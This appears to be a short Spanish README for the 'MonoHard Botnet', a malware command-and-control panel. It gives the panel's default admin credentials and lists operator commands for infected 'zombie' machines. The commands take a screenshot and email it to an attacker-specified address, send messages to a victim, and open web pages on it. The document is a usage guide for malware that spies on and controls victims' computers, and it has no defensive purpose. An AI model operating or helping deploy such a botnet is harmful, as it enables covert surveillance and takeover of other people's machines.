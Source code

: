 #Comandos

# INTRODUCCIÓN #

Los Comandos para MonoHard Botnet los puedes ejecutar desde el panel web.

el usuario por defecto es : admin
la contraseña por defecto es : admin

( pueden modificarse desde la DB).

# COMANDOS #

# -img #
# -url #
# -msg #


# MODO DE USO #

imgtucorreo@servidor.com // toma una captura de pantalla y lo manda al correo especificado luego de "img".

msgtumensaje // manda un mensaje a la maquina zombie que se especifica despues de "msg".

urlwww.google.com // abre una pagina web que se especifica luego de "url".